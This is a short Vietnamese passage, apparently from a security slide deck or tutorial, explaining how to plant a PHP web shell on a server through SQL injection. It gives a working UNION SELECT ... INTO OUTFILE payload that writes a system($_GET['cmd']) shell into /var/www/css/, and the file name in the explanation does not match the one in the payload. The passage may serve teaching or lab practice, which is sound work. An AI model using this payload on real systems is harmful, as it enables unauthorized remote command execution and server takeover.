

Mỗi trình duyệt thường sẽ có 1 folder css riêng. Ta có thể sử dụng folder này để upload 1 file độc hại cho phép thực thi lệnh cmd. Cụ thể nội dung ta có thể upload như sau:
0 UNION SELECT 1,2,'<?php system($_GET["cmd"]);?>',4 INTO OUTFILE '/var/www/css/webshell01.php’
Nội dung này sẽ upload file webshell2.php cho phép thực hiện các lệnh cmd vào folder var/www/css/

214